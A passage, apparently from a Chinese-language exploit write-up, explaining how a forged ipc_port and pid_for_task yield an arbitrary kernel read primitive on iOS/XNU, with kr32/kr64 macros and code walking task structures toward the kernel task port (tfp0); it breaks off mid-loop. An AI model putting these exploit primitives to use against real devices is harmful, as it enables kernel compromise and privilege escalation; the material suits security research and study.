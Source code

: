 因此最终 port 句柄实际上是由 `ipc_port` 中的 `io_bits` 和 `io_references` 的值组成的。

现在我们同时拥有了 `ipc_port` 的完全控制权及其句柄，但这个 `ipc_port` 缺少 `vm_map`，并不是一个合法的 task port，接下来我们需要将内核的 `vm_map` 赋予它。

# pid_for_task Kernel Read Primitive
`pid_for_task` 函数接收一个进程的 port 作为参数，并查询它的 pid 返回，它的实现原理如下：
```c
// 伪代码
int pid = get_ipc_port(port)->task->bsd_info->p_pid;
```
而结构体成员访问的本质是偏移量计算：
```c
int pid = *(*(*(get_ipc_port(port) + offset_task) + offset_bsd_info) + offset_pid)
```
由于我们有 fakeport 的控制权，我们可以修改它的 `bsd_info` 等于 `addr - offset_pid`，此时 `*(*(get_ipc_port(port) + offset_task) + offset_bsd_info) = addr - offset_pid`，此时上述公式有如下的等价表达：
```c
int pid = *(addr - offset_pid + offset_pid) = *addr
```
通过这种方式能稳定读取 addr 处的 4B 数据，进而实现一个完美的 Kernel Read Primitive：
```c
#define kr32(addr, value)\
    if (SMAP) {\
        read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    }\
    *read_addr_ptr = addr - koffset(KSTRUCT_OFFSET_PROC_PID);\
    if (SMAP) {\
        write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    }\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
```
首先通过 Pipe Buffer 修改 `bsd_info`，然后将 fakeport 的句柄传入 `pid_for_task`，即可读取到指定地址的 4B 数据。

通过组合多次 kr32 可以实现任意长度数据的 Kernel Read，例如下面的 kr64：
```c
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
```

# 获取 kernel vm_map
基于当前进程的 `task_port` 可以枚举出所有进程，在这个过程中需要数百次的 Kernel Read，因此需要借助于上述稳定的 `pid_for_task Kernel Read Primitive`：
```c
uint64_t struct_task;
kr64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT), struct_task);
if (!struct_task) {
    printf("[-] kernel read failed!\n");
    goto err;
}

printf("[!] READING VIA FAKE PORT WORKED? 0x%llx\n", struct_task);
printf("[+] Let's steal that kernel task port!\n");

// tfp0!

uint64_t kernel_vm_map = 0;

while (struct_task != 0) {
    uint64_t bsd_info;
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO), bsd_info);
```
